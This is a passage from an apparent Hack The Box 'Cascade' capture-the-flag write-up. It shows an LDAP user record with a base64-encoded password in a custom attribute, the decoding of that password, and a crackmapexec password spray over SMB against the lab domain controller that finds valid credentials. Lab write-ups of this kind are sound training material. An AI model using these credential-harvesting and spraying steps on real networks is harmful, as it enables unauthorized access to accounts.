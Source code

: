 ```text
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132375043274134331
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```

There were some small details that were not found in the other tools, such as the exact share folder naming.  Easily overlooked, there was also an entry on the user `r.thompson` that seemed to have a potential password in the **cascadeLegacyPwd** field .

```text
zweilos@kalimaa:~/htb/cascade$ echo clk0bjVldmE= | base64 -d
rY4n5eva
```

Base64 decoding `clk0bjVldmE=` gave me the password `rY4n5eva`. 

#### crackmapexec

I saved this password to my **passwords** file and used `crackmapexec` to test all of the users against SMB with this password.  

```text
zweilos@kalimaa:~/htb/cascade$ crackmapexec smb -u users -p passwords -d Cascade 10.10.10.182

Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)

SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:Cascade) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\CascGuest:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] Cascade\r.thompson:rY4n5eva
```

As expected, the password belonged to `r.thompson`. 

## Initial Foothold

### Enumeration as `r.thompson`

#### smbmap

Using my new credentials, I was able to get a full listing of the network shares on this machine.
